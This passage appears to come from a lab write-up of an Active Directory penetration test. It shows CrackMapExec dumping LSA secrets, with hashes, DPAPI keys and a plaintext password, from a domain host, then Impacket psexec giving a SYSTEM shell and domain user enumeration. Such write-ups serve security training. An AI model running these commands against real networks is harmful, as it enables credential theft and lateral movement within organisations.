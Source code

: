 ```
~$ proxychains -q crackmapexec smb targets.txt -u corpmngr -p 'User4&*&*' --lsa 

SMB         192.168.98.2    445 DC01      [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:warfare.corp) (signing:True) (SMBv1:False)
SMB         192.168.98.120  445 CDC      [*] Windows 10 / Server 2019 Build 17763 x64 (name:CDC) (domain:child.warfare.corp) (signing:True) (SMBv1:False)
SMB         192.168.98.30   445 MGMT     [*] Windows 10 / Server 2019 Build 17763 x64 (name:MGMT) (domain:child.warfare.corp) (signing:False) (SMBv1:True)
SMB         192.168.98.2    445 DC01     [-] warfare.corp\corpmngr:User4&*&* STATUS_LOGON_FAILURE
SMB         192.168.98.120  445 CDC      [*] child.warfare.corp\corpmngr:User4&*&*
SMB         192.168.98.30   445 MGMT     [+] child.warfare.corp\corpmngr:User4&*&* (Pwn3d!)
SMB         192.168.98.30   445 MGMT     [+] Dumping LSA secrets
SMB         192.168.98.30   445 MGMT     CHILD\CDCS:aes256-cts-hmac-sha1-96:b7ac25ac1278b5951f685d8c50bc9ee98338af9ebe7ee3562be8673789c61c
SMB         192.168.98.30   445 MGMT     CHILD\CDCS:aes128-cts-hmac-sha1-96:23ee315ec4d19de69db6e7691d3da9945d19632
SMB         192.168.98.30   445 MGMT     CHILD\CDCS:des-cbc-md5:51a1a83ec41f9267
SMB         192.168.98.30   445 MGMT     CHILD\CDCS:plain_password_hex:ef903d96c92358aeeb906b24de9d4b32e89fae2b35cbb9cfc...
SMB         192.168.98.30   445 MGMT     CHILD\CDCS:aad3b435b51404eeaad3b435b51404ee:6ca9225cb415fec5953900a8513e968::::
SMB         192.168.98.30   445 MGMT     dpapi_machinekey:0x95e0c0452350da239e70d692e67a5cc857a8dfd
SMB         192.168.98.30   445 MGMT     dpapi_userkey:0xb890e07ba0d31e31c758d305c2a29e1b4ea813a5
SMB         192.168.98.30   445 MGMT     NL$KM:df885acfa168074cc84de093af76093e726cd092e9ef9c72d6fe59c6cbb70382d896c9569b67dcdac871dd77b96916c8c1187d40c118474c481ddf62a7c04682
SMB         192.168.98.30   445 MGMT     corpmngr@child.warfare.corp:User4&*&*
```

### 🔑 Internal Access

<p class="indent-paragraph">
After authenticating to the MGMT host <code>192.168.98.30</code> with the <code>child/john:User1@#$%6</code> credentials, the enumeration was escalated by dumping LSA secrets via CrackMapExec, revealing cached domain hashes, DPAPI keys and even a plaintext credential for another account. A subsequent execution of Impacket’s <code>psexec.py</code> achieved code execution as <code>NT AUTHORITY\SYSTEM</code><span class="codefix">,</span> confirming local administrator rights. Standard Windows discovery then verified that the machine was joined to the <code>child.warfare.corp</code> domain and had visibility toward the Child Domain Controller <code>cdc.child.warfare.corp</code><span class="codefix">.</span>
</p>

```
~$ proxychains /root/.local/bin/psexec.py 'child/john:User1@#$%6@192.168.98.30'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 192.168.98.30.....
[*] Found writable share ADMIN$
[*] Uploading file LOYLoZut.exe
[*] Opening SVCManager on 192.168.98.30.....
[*] Creating service Heno on 192.168.98.30.....
[*] Starting service Heno.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.

~$ C:\Windows\system32> whoami
nt authority\system

~$ C:\Windows\system32> net user /dom
The request will be processed at a domain controller for domain child.warfare.corp.

User accounts for \\cdc.child.warfare.corp
Administrator             corpmngr              Guest
```